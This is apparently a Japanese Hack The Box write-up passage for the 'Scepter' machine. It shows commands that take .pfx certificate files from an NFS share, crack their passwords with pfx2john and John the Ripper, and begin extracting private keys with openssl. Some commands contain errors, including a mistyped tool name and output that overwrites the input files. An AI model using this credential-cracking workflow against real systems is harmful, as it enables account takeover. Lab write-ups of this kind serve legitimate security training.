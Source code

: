 中身を見てみる
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/Scepter/target-NFS]
└─$ sudo ls -la helpdesk
total 21
drwx------ 2 nobody nogroup   64 Nov  2  2024 .
drwxrwxrwx 2 nobody nogroup   64 Oct  6  2025 ..
-rwx------ 1 nobody nogroup 2484 Nov  2  2024 baker.crt
-rwx------ 1 nobody nogroup 2029 Nov  2  2024 baker.key
-rwx------ 1 nobody nogroup 3315 Nov  2  2024 clark.pfx
-rwx------ 1 nobody nogroup 3315 Nov  2  2024 lewis.pfx
-rwx------ 1 nobody nogroup 3315 Nov  2  2024 scott.pfx
```
いくつかの証明書があることがわかる

クラックしていく
まずは、johnが読み取れるhashにする
```sh
┌──(root㉿kali)-[/home/…/HTB/Scepter/target-NFS/helpdesk]
└─# pfx2john scott.pfx > ../../scott-pfx.hash
┌──(root㉿kali)-[/home/…/HTB/Scepter/target-NFS/helpdesk]
└─# pfx2john clark.pfx > ../../clark-pfx.hash
                                                                                                     
┌──(root㉿kali)-[/home/…/HTB/Scepter/target-NFS/helpdesk]
└─# pfx2pfx2john lewis.pfx > ../../lewis-pfx.hash
```

johnでクラックする
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/Scepter]
└─$ john clark-pfx.hash scott-pfx.hash lewis-pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 ASIMD 4x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (lewis.pfx)     
newpassword      (clark.pfx)     
newpassword      (scott.pfx)     
3g 0:00:00:00 DONE (2025-10-06 05:57) 6.000g/s 12288p/s 36864c/s 36864C/s 123456..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
クラックできた。これで、3ユーザー分の証明書+秘密鍵が入ったpfxファイルをファイルを復号出来るようになった

.pfx を .pem（証明書.crt＋鍵.key）に変換する
秘密鍵の抽出
```sh
openssl pkcs12 -in clark.pfx -nocerts -out clark.key -nodes
openssl pkcs12 -in lewis.pfx -nocerts -out lewis.pfx -nodes
openssl pkcs12 -in scott.pfx -nocerts -out scott.pfx -nodes
```
